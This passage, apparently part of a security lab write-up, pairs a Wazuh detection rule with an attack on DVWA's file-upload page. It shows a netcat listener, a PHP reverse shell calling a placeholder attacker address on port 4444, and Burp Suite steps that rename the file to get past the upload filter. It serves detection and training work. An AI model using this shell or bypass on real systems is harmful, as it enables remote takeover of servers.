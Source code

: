 ```xml
    </rule>
</group>
```

### Restart wazuh-manager

```shell
systemctl restart wazuh-manager
```

### Start netcat on attacker's machine

```shell
nc -nvlp 4444
```

### shell.php.jpg

```php
<?php
    $sock = fsockopen('<ATCKR-ADDR>', 4444);
    exec("/bin/bash -i <&3 >&3 2>&3");
?>
```

### Uploading file

Enable `intercept` on `Burp Suite`

Upload `shell.php.jpg` on `http://<IP_ADDR>/DVWA/vulnerabilities/upload/`

Modify `filename="shell.php.jpg"` to `filename="shell.php"`

Click `Forward`

Go to `http://<IP_ADDR>/DVWA/hackable/uploads/shell.php`